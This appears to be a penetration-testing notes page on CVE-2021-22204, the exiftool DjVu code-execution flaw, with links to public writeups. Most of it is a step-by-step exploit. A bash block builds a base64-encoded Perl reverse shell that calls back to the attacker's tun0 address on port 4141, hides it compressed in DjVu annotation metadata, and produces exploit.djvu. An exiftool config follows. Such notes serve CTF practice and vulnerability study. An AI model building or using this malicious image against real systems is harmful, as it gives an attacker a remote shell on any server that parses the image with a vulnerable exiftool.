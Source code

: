 
* There is a RCE in `exiftool` CVE-2021-22204
  * https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/
  * https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
  * https://github.com/convisolabs/CVE-2021-22204-exiftool
  * https://hackerone.com/reports/1154542

* Description: Improper neutralization of user data in the DjVu file format in `exiftool` versions 7.44 and up allows arbitrary code execution when parsing the malicious image.

### Exploit

Setting up reverse shell payload image file.
```bash
# Installs the required tools
sudo apt install djvulibre-bin

# Create payload file with perl reverse shell
# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl
IP=tun0
PORT='4141'
rev_shell=$(echo "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in($PORT,inet_aton('$IP')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};" | base64 -w0)
payload='(metadata "\c${use MIME::Base64;eval(decode_base64('\'$rev_shell\''))};")'
echo $payload > payload

# Compress our payload file with to make it non human-readable
bzz payload payload.bzz

# INFO = Anything in the format 'N,N' where N is a number
# BGjp = Expects a JPEG image, but we can use /dev/null to use nothing as background image
# ANTz = Will write the compressed annotation chunk with the input file
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

Create Config file for `exiftool`
```conf
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end
```
